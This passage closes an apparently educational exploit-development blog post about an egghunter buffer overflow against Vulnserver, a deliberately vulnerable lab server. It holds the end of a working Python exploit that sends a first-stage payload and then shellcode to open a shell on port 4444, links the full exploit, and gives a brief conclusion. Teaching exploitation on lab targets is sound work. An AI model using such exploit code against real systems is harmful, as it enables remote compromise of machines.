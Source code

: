 ``` python
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending first stage...')
    fd.sendall(PAYLOAD)
    print('Done.')

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending shellcode...')
    fd.sendall(SHELL)
    print('Boom! Check the port 4444 of the victim.')
```

Now, let’s look the egghunter in action:

<div class="imgblock">

![Success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter/shell1_whl7kp.gif)

</div>

Awesome\! We got our shell again\!

You can download the final exploit [here](exploit.py)

## Conclusion

The egghunter technique is very useful when dealing with short space for
sending complex payloads. However, you must be careful to inject the
correct tag because it will start using all the available CPU for
searching the egg on the entire system memory.
